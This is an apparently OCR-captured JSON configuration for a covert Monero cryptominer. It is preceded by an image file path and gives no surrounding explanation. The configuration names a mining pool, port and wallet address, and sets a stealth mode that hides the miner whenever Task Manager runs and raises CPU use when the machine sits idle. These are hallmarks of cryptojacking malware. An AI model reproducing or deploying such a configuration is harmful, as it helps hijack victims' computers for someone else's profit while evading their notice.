 {
"algo": "rx/0",
"pool": "xmr-eu2.nanopool.org",
"port": 14433,
"wallet": "8BbApiMBHsPVKkLEP4rVbST6CnSb3LW2gXygngCi5MGiBuwAFh6bFEzT3UTufiCehFK7fNvAjs5Tv6BKYa6w8hwaSjnsg2N",
"password": "",
"rig-id": "",
"keepalive": false,
"nicehash": false,
"ssltls": true,
"max-cpu": 10,
"idle-wait": 1,
"idle-cpu": 50,
"stealth": true,
"stealth-targets": "Taskmgr.exe"
}
